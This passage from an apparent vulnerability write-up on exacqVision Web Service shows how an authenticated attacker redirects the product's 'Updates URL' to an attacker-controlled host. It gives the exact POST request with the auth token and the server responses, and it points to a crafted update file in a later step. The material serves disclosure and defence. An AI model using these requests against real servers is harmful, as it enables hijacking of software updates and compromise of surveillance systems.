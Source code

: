 Successful authentication results in a server response that includes an authorization token, represented below.

```
HTTP/1.1 200 OK
Date: Mon, 01 Jun 2020 13:29:39 GMT
Server: Apache/2.4.20 (Unix)
...
Content-Length: 61
Connection: close
Content-Type: application/json

{"auth": "b5a5323fc67148a084f6b0bb5f4de83a", "success": true}
```

### 2. Changing the Updates URL
Once authenticated to the Web Service Administration panel, the "Updates URL" can be changed to an attacker-controlled location. In the version of exacqVision Web Service used in this example, the "Updates URL" page can be found within the web application in the "Configuration" sidebar tab under the "Updates" section. 

*Note: The default update URL is http://www.exacqvision.com/downloads/evFileInfo.txt. The content of evFileInfo.txt is important and will be explained in an upcoming step.*

Continuing with the example, the "Updates URL" is changed to `http://10.0.0.11/evFileInfo.txt`. 

*Note: The attacker-controlled version of the evFileInfo.txt doesn't need to be named evFileInfo.txt - only the content within the file is important.*

Changing the update URL involves one `POST` request to `http:/10.0.0.22/service.web/updates` with the `auth=b5a5323fc67148a084f6b0bb5f4de83a&url=http://10.0.0.11/evFileInfo.txt&timeout=10` form data. An example `POST` request and the susequent response are shown below.

```
POST /service.web/updates HTTP/1.1
Host: 10.0.0.22
...
Content-Length: 97
Origin: http://10.0.0.22
Connection: close
Referer: http://10.0.0.22/service.web?response=html&auth=b5a5323fc67148a084f6b0bb5f4de83a

auth=b5a5323fc67148a084f6b0bb5f4de83a&url=http://10.0.0.11/evFileInfo.txt&timeout=10
```

```
HTTP/1.1 200 OK
Date: Tue, 02 Jun 2020 02:59:47 GMT
Server: Apache/2.4.20 (Unix)
...
Content-Length: 35
Connection: close
Content-Type: application/json

{"success": true, "restart": false}
```

